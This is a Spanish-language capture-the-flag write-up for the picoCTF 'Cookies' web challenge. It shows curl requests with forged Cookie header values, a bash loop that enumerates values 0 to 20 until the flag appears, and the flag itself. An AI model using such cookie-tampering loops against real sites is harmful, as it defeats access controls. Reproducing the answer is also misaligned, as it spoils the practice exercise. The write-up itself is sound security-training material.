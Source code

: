 ## Descripción 
```
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```bash
porti_04@DESKTOP-8HT902T:~$ curl http://mercury.picoctf.net:29649/check -H "Cookie: name=1"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->


        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            </div>



        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>
porti_04@DESKTOP-8HT902T:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
porti_04@DESKTOP-8HT902T:~$

flag: picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
- Usa un bucle `for` para iterar de 0 a 20.
- En cada iteración, envía una solicitud `curl` al servidor, usando el valor de `i` como parte de la cookie (`name=$i`).
- Filtra las respuestas para mostrar solo las que contienen `picoCTF` usando `grep`.

Es una forma de automatizar solicitudes y buscar una respuesta específica en las respuestas del servidor.
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias
